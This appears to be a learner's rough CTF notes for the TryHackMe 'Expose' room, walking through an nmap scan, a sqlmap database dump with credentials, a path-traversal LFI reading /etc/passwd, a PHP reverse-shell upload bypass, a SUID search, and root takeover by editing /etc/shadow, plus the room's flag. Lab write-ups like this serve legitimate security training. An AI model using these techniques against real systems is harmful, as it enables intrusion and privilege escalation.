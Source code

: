 ```yaml
---
title: Expose
draft: 
tags:
  - thm
  - oscp
---
```

These are some rough notes I took when in the Expose TryHackMe room. These are notes uploaded after the fact and from before my attempting to make detailed write-ups.
# Port Scanning
`nmap -p- <IP>`

Then use -sV on the services found.


```
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+

[11:47:01] [INFO] table 'expose.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.69.234/dump/expose/user.csv'
[11:47:01] [INFO] fetching columns for table 'config' in database 'expose'
[11:47:02] [INFO] retrieved: 'id'
[11:47:02] [INFO] retrieved: 'int'
[11:47:02] [INFO] retrieved: 'url'
[11:47:02] [INFO] retrieved: 'text'
[11:47:03] [INFO] retrieved: 'password'
[11:47:03] [INFO] retrieved: 'text'
[11:47:03] [INFO] fetching entries for table 'config' in database 'expose'
[11:47:03] [INFO] retrieved: '/file1010111/index.php'
[11:47:04] [INFO] retrieved: '1'
[11:47:04] [INFO] retrieved: '69c66901194a6486176e81f5945b8929'
[11:47:04] [INFO] retrieved: '/upload-cv00101011/index.php'
[11:47:04] [INFO] retrieved: '3'
[11:47:05] [INFO] retrieved: '// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z'
[11:47:05] [INFO] recognized possible password hashes in column 'password'

```



```
69c66901194a6486176e81f5945b8929
easytohack
```

After using that password on the /file1010111/index.php page, we can there use LFI
```
http://10.10.69.234:1337/file1010111/index.php?file=/../../../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin bind:x:115:122::/var/cache/bind:/usr/sbin/nologin Debian-snmp:x:116:123::/var/lib/snmp:/bin/false redis:x:117:124::/var/lib/redis:/usr/sbin/nologin mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

Now on the 
```
/upload-cv00101011/index.php
```
page we can login with the `zeamish` user

this page allows file uploads

We are able to upload a php reverse shell by naming it .png and then capturing the POST in burpsuite, and changing the name back to .php

we are able to use netcat to listen to the port specified, then navigate to the directory where the file was uploaded to thanks to the source code


Navigating to the user directories, we find

```
SSH CREDS
zeamkish
easytohack@123
```

Now we can run 

`find / -perm -04000 -type f -ls 2>/dev/null`

to find things with a SUID bit set

we find nano

nano can edit /etc/shadow file

```
$ openssl passwd -1 -salt root 1234 
$1$root$.fAWE/htZAqQge.bvM16O/
```

add this to the /etc/shadow for root

```
THM{ROOT_EXPOSED_1001}
```

